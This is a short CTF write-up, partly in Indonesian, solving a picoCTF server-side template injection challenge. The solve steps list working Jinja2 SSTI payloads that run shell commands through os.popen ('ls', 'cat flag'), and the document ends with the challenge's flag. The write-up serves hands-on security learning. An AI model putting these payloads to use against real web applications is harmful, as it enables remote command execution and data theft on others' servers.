

# soal
I made a cool website where you can announce whatever you want! Try it out!

## launch istance
Additional details will be available after launching your challenge instance.
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

# hint
- Server Side Template Injection

# solve
- saya melihat bahwa ini adalah web SSTI
- saya pertama mencoba payload simple dengan payload sederhana SSTI ```{{ 7+7 }}```
  
  
- setelah itu saya mencoba payload dari sini
  - [https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)
  - [me2nuk.com/SSTI-Vulnerability/](https://me2nuk.com/SSTI-Vulnerability/)
  ```bash
  {{config}}

  {{self}} 
  {{_self.env}}
  {{self.env}}
  {{self._templateReference}}

  # 1
  {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()}}

  {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}

  # 2
  {{ config.__class__.__init__.__globals__.os.popen('ls').read() }}
  ```

## python
- download [E_SSTI1.py](https://raw.githubusercontent.com/ariafatah0711/ctf_aria/refs/heads/main/picoCTF/web_exploit/solve/E_SSTI1.py) 
```bash
python3 E_SSTI1.py
```

# flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}